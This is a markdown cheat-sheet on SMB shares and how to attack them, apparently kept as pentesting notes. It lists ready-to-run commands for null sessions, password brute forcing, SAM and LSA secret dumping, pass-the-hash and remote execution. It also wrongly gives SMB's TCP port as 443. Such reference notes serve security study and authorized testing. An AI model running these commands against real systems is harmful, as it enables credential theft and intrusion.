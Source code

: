 - Server Message Block.
- Used to share folders, printers, resources.
- Works over
	- Port 139 over NetBIOS (Older machines)
	- Port 443 over TCP
# Shares
Folders that a machine shares in order to be accessed by other computer/users.
### ADMIN$
- The `%SystemRoot%` directory of the machine. Only accessible to Administrators of the machine.
### C$
- The C:\ drive of the machine, only accessible to Administrators of that machine.
### IPC$
- A special share that is used `Inter Process Communication` used by [MSRPC](MSRPC.md).
- Performs actions such as:
	- List all shares
	- List all users
	- List files within a share
	- Start/stop services
### SYSVOL
- A special share in domain controllers that stores [Group Policy](../AD%20Concepts/Group%20Policy.md), scripts, junction point.
### NETLOGON
- This share is used to store logon scripts (executes when user logs in) and other files.

# Enumeration
### smbclient
FTP-like client for SMB 
```bash
# List Shares
smbclient -U "[domain\]username%password" -L //<hostname/IP>
# Connect to a share
smbclient -U "[domain\]username%password" //<hostname/IP>/C$
# Anonymous Login/Null Session
smbclient --no-pass -L //<hostname/IP>
smbclient -U "%" -L //<hostname/IP>
```
### enum4linux
```bash
enum4linux -a -u <username> -p <password> <target>
```
### smbmap.py
```bash
smbmap.py -H <target> [options]
```
- `-u <username>`
- `-p <password>
- `-r <sharename>` : list content of the share
- `-x <command>` : execute command remotely
- `--upload <file> <sharepath>` : upload to file share
- `--down <file>` : download from file share
### crackmapexec
```bash
# List shares
cme smb <target> -u <username> -p <password>
# Test null session
cme smb <target> -u '' -p '' --shares

# Brute force passwords 
cme smb <target> -u ./user.txt -p ./pass.txt
cme smb <target> -u ./user.txt -p ./pass.txt --continue-on-success

# list shares
cme smb <target> -u <username> -p <password> --shares
# dump sam database of the target
cme smb <target> -u <username> -p <password> --sam
# dump lsa secrets from lsass memory
cme smb <target> -u <username> -p <password> --lsa
# get sessions
cme smb <target> -u <username> -p <password> --sessions
# Get loggedon users
cme smb <target> -u <username> -p <password> --loggonon-users
# list disks
cme smb <target> -u <username> -p <password> --disks
# list users
cme smb <target> -u <username> -p <password> --users
# list groups
cme smb <target> -u <username> -p <password> --groups
# list local groups
cme smb <target> -u <username> -p <password> --local-groups
# list password policy
cme smb <target> -u <username> -p <password> --pass-pol

# Execute commands
cme smb <target> -u <username> -p <password> -x 'command' # CMD
cme smb <target> -u <username> -p <password> -X 'powershell' # CMD

# Pass the hash
cme smb <target> -u <username> -H <hash>

# list smb modules
cme smb -L
# Use modules
cme smb <target> <option> -M <module_name>
```
### Cloning entire share
```bash
smbclient //domain.loc/sharename
smb: \> RECURSE ON # set recursive to on
smb: \> PROMPT OFF # do no ask y/n for every directory
smb: \> mget * # get everyhing * = wildcard
```